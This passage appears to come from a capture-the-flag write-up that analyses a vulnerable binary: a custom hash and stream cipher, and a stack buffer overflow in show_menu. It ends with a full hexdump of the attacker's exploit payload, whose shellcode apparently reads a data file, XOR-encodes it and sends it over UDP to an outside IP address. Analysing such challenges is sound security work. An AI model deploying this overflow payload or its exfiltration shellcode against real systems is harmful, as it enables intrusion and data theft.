 ```
good bye!
```

Two new files were created in `data` folder:
```
$ ls data/
hax0r_data.txt  hax0r_pwd.txt
$ xxd data/hax0r_pwd.txt 
00000000: adba a00d 3bd9 8e62 b8cf c74d 22a1 0331  ....;..b...M"..1
$ xxd data/hax0r_data.txt 
00000000: 2ff6 5c97 c0f8 4f3d 03f5 3462 8b75 c2c9  /.\...O=..4b.u..
00000010: 37ec 1f90 d2ff 0663 0fef 2965 de62 9adb  7......c..)e.b..
00000020: 17c3 38e1 e0dc 734f 70db 195f b921       ..8...sOp.._.!
```

Surely, `hax0r_pwd.txt` is a product of the custom hash function and `hax0r_data.txt` is encrypted with the 
custom stream cipher.

Next, I did some reversing using [Ghidra](https://ghidra-sre.org/).
See reversed code in [reversed.c](reversed.c). Those are the important findings:

- The stream cipher uses the hashed password as a key
  (and we know Santa's password is one from `rockyou` dictionary).
- There is a buffer overflow vulnerability in `show_menu` function (reading up to 1,000 bytes into 10-size buffer):
  ```c
  char choice[10];
  printf("choice> ");
  fgets(choice, 1000, stdin);
  ```
  
## Exploiting the binary

To understand the attack, I tried to simulate it. It didn't work in _Kali 2020.4_ running in Virtual Box, but
it worked under [WSL 2](https://en.wikipedia.org/wiki/Windows_Subsystem_for_Linux).

At first, I prepared [payload.bin](payload.bin) (exactly the same as the attacker had used).
```
$ xxd payload.bin
00000000: 6576 696c 3072 0a6c 6f76 6562 7567 310a  evil0r.lovebug1.
00000010: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000050: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000060: bf74 615f 6461 7461 2e57 48bf 6461 7461  .ta_data.WH.data
00000070: 2f73 616e 5748 89e7 4831 f648 31d2 b802  /sanWH..H1.H1...
00000080: 0000 000f 0548 89c7 48ba 0000 0100 0100  .....H..H.......
00000090: 0000 526a 006a 006a 006a 0048 89e6 48ba  ..Rj.j.j.j.H..H.
000000a0: 0100 0000 0000 0020 5248 ba00 0000 1337  ....... RH.....7
000000b0: 0100 0052 ba20 0000 00b8 0000 0000 0f05  ...R. ..........
000000c0: 4831 c981 340e efbe adde 4883 c104 4883  H1..4.....H...H.
000000d0: f920 75ef bf02 0000 00be 0200 0000 4831  . u...........H1
000000e0: d2b8 2900 0000 0f05 4889 c748 89e6 4883  ..).....H..H..H.
000000f0: c603 ba32 0000 0041 ba00 0000 006a 0049  ...2...A.....j.I
00000100: b802 0000 35c0 a800 2a41 5049 89e0 41b9  ....5...*API..A.
00000110: 1000 0000 b82c 0000 000f 05bf 0000 0000  .....,..........
00000120: b83c 0000 000f 050a                      .<......
```
